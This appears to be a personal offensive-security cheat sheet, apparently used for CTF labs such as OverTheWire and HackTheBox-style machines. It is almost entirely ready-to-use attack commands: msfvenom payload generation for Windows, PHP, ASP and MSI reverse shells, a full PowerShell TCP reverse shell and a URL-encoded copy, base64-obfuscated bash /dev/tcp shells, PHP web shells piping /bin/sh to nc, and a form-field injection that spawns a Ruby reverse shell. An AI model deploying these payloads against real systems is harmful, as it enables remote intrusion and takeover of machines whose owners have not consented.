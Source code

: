 
## _SSH Command Execution_
```
ssh -p 2220 bandit18@bandit.labs.overthewire.org -t "cat /home/bandit18/readme"
```

# reverShells
## listener on a local port
```
rlwrap nc -lvnp 1234
```

## msfvenom
### meterpreter
`msf6 > use exploit/multi/handler `
Windows  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```  
PHP  
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```  
ASP  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```
## _reverse shell from the remote server_
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

# web shell
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII
```
### can encode payload in Base64 
	marche pour les formulaire
```
echo -n 'bash -i >& /dev/tcp/10.10.17.161/1234 0>&1' | base64 -w 0
```
```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNy4xNjEvMTIzNCAwPiYx | base64 -d | bash
```
## _Create end send a reverse shell php file to webvictim_
```
echo '<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.108 1234 >/tmp/f"); ?>' > shell.php
```
```
echo "<?php system('bash -i >& /dev/tcp/10.201.1.201/1234 0>&1');?>" > shell.php
```
## _form post_
```
curl 'http://remote@ip' -X POST -d 'url=http%3A%2F%2FLOCAL-ADDRESS%3ALOCAL-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-ADDRESS%22%2CLOCAL-PORT%29%29%27%60'
```
	| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
	| `curl -X POST http://remot@IP/.%0d./.%0d./.%0d./bin/sh -d 'id | nc L@IP port'` | RCE
## _to allow the call backs on port 80 and 443 to our machine_
```
ufw allow from adresseip proto tcp to any port 80,443
```
